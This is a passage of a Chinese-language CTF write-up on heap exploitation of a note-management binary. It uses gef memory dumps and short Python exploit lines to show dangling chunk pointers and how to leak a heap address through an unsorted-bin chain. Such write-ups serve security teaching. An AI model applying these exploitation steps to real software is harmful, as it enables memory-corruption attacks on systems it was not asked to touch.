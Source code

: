 之后我们` delete chunk 1;delete chunk 0 ;`会和 `top chunk` 合并
此时堆布局,可以看到 `chunk 0` 和 `chunk 1 `的 `ptr` 还在
```c
gef➤  x/32gx 0x000000000116b000
0x116b000:	0x0000000000000000	0x0000000000001821
0x116b010:	0x0000000000000100	0x0000000000000000
0x116b020:	0x0000000000000000	0x0000000000000000
0x116b030:	0x000000000116c830	0x0000000000000000 => chunk 0 ptr
0x116b040:	0x0000000000000000	0x000000000116c8c0 => chunk 1 ptr
0x116b050:	0x0000000000000000	0x0000000000000000 
0x116b060:	0x0000000000000000	0x0000000000000000
......
top chunk
```
#### 泄露 heap 地址
泄露 `heap` 地址，是在 `unsorted bin` 中构造链，泄露 `unsorted bin` 中第一个 `chunk` 的`fd`,这时是指向下一个堆块的。泄露下一个堆块的地址，也就得到了 `heap` 地址。但是注意构造 `chunk` 时，要避免它们进行合并。

```python
new_note("A"*notelen)#0
new_note("B"*notelen)
new_note("C"*notelen)
new_note("D"*notelen)
```
此时堆块信息
```python
gef➤  heap chunks
Chunk(addr=0x11e7010, size=0x1820, flags=PREV_INUSE)
    [0x00000000011e7010     00 01 00 00 00 00 00 00 04 00 00 00 00 00 00 00     ................]
Chunk(addr=0x11e8830, size=0x90, flags=PREV_INUSE)
    [0x00000000011e8830     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41     AAAAAAAAAAAAAAAA]
Chunk(addr=0x11e88c0, size=0x90, flags=PREV_INUSE)
    [0x00000000011e88c0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42     BBBBBBBBBBBBBBBB]
Chunk(addr=0x11e8950, size=0x90, flags=PREV_INUSE)
    [0x00000000011e8950     43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43     CCCCCCCCCCCCCCCC]
Chunk(addr=0x11e89e0, size=0x90, flags=PREV_INUSE)
    [0x00000000011e89e0     44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44     DDDDDDDDDDDDDDDD]
Chunk(addr=0x11e8a70, size=0x205a0, flags=PREV_INUSE)  ←  top chunk
```
看一下 `table` 的记录：
```c
gef➤  x/16gx 0x11e7010-0x10
0x11e7000:	0x0000000000000000	0x0000000000001821 => table header
0x11e7010:	0x0000000000000100	0x0000000000000004 => max | num
0x11e7020:	0x0000000000000001	0x0000000000000080 
0x11e7030:	0x00000000011e8830	0x0000000000000001 => chunk 0 ptr = 0x00000000011e8830
0x11e7040:	0x0000000000000080	0x00000000011e88c0 => chunk 1 ptr = 0x00000000011e88c0
0x11e7050:	0x0000000000000001	0x0000000000000080
0x11e7060:	0x00000000011e8950	0x0000000000000001 => chunk 2 ptr
0x11e7070:	0x0000000000000080	0x00000000011e89e0 => chunk 3 ptr
```
此时 bins 中是没有 chunk 的。
`chunk 1` 和` chunk 3 `主要就是用来防止堆块合并的，这样我们才能在 unsorted bin 中成功构造链表
